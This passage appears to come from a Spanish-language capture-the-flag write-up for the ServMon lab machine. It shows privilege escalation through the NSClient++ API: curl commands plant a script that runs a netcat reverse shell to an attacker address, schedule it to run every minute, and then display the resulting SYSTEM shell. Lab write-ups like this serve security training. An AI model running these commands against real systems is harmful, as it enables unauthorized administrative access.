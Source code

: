 Leyendo la documentación de [NSClient++ API](https://docs.nsclient.org/api/) podemos hacer peticiones `PUT` pasándole los parámetros que deseamos. En este caso debemos agregar un script que llame al archivo `evil.bat`

```console
nadine@SERVMON C:\Temp> curl -k -i -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Temp\nc.exe 10.10.x.x 443 -e cmd.exe"
```

Luego agregamos el scheduler con intervalo de 1m para que llame al script que acabamos de crear cada minuto..

```bash
nadine@SERVMON C:\Temp> curl -k -i -u admin https://127.0.0.1:8443/api/v1/queries/foobar?time=1m
```

Esperamos un par de segundos y revisamos la shelll reversa y ya debemos estar como administrador para finalmente obtener la flag del root.

```bash
connect to [10.10.14.43] from (UNKNOWN) [10.10.14.43] 49671
Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
```
